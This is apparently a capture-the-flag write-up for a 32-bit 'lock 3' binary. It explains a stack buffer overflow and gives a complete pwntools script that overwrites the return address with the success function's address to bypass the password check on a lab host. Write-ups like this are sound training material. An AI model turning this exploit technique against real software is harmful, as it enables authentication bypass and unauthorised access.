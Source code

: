 # lock 3

## Challenge

Simple 32-bit binary with a string buffer overflow.

ASLR disabled.

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

Since ASLR is off, we know the executable address even with PIE enabled.

We have a buffer overflow with no canary so we can overwrite the return address in `sym.lock_logic`.

By overwriting this address with the address of `sym.success`, we can print the flag without authenticating.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 10.0.1.33 --port 10003 lock3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('lock3')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '10.0.1.33'
port = int(args.PORT or 10003)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

exe.address = 0x56555000
payload = flat({
    0x6c + 0x4: exe.sym['success'],
    })

io.sendlineafter(b"Enter the password: ", payload)

io.recvuntil(b'Correct, the lock is open.\r\n')
print(io.recvuntil(b'\r\n', drop=True).decode())
```

## Flag

```
There are currently 178934 crates in the warehouse.
```
